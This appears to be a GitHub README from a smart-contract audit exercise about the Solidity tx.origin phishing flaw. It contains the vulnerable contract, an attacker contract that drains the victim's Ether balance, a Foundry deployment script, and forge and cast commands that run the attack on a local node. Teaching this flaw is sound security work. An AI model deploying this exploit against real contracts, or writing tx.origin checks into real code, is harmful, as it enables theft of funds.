 # Web3eg-Smart-Contract-Auditor-Phishing-Attack
- The contract you've provided has a security vulnerability related to the use of tx.origin for authorization. This vulnerability can be exploited by an attacker to trick the owner into executing a malicious transaction. Below is an explanation of the vulnerability and how it can be exploited.
  ```solidity
  //SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;

contract Phishing {

    address public owner;

    constructor() payable {
        owner = msg.sender;

    }

    function transfer (address payable _to , uint _amount) public {
        require (tx.origin == owner , " you are not the owner");
        (bool sent , ) = _to.call{value: _amount}("");
        require(sent ,"fail");
    }
}
```
- Exploitation Scenario
1- Deploy the Phishing Contract: The attacker deploys the Phishing contract and funds it with some Ether.

2- Create a Malicious Contract: The attacker creates a malicious contract that calls the transfer function of the Phishing contract.

3- Trick the Owner: The attacker tricks the owner into interacting with the malicious contract. This could be done through social engineering, such as sending a phishing email or link that appears to be legitimate.

4- Execute the Attack: When the owner interacts with the malicious contract, it calls the transfer function of the Phishing contract. Since tx.origin is the owner's address, the require statement passes, and the funds are transferred to the attacker's address.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;
    interface IPhishing{
        function transfer(address payable _to, uint _amount) external;
    }

    contract PhishingAttack {
        address public attacker;
        IPhishing public phishing;
        constructor (address _phishing) payable{
            attacker = payable(msg.sender);
            phishing = IPhishing((_phishing));
        }

        function attack() public{

        phishing.transfer(payable(attacker), address(phishing).balance);
        }
        receive() external payable {}

    }

```
- Deploy the Phishing Contract: Deploy the Phishing contract and fund it with Ether. and PhishingAttack contract
```solidity
//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Phishing.sol";
import "src/PhishingAttack.sol";

contract DeployPhishing is Script{

    function run() external {

        uint256 privateKey1 =vm.envUint ("PRIVATE_KEY1");
        uint256 privateKey2 = vm.envUint("PRIVATE_KEY2");

        vm.startBroadcast(privateKey1);
        Phishing phishing = new Phishing{value : 10 ether}();
        vm.stopBroadcast();

        vm.startBroadcast(privateKey2);
        PhishingAttack phishingAttack = new PhishingAttack(address(phishing));
        vm.stopBroadcast();
    }

}
```
- command to deploy ``` forge script script/DeployPhishing.s.sol:DeployPhishing --rpc-url http://127.0.0.1:8545 --broadcast```
-  Trick the Owner: The attacker tricks the owner into interacting with the malicious contract. This could be done through social engineering, such as sending a phishing email or link that appears to be legitimate.

- Execute the Attack: When the owner interacts with the malicious contract, it calls the transfer function of the Phishing contract. Since tx.origin is the owner's address, the require statement passes, and the funds are transferred to the attacker's address.
  ```
```cast send < Phishing contract address> "attack()" --rpc-url http://127.0.0.1:8545 --private-key <private key PhishingAttack>
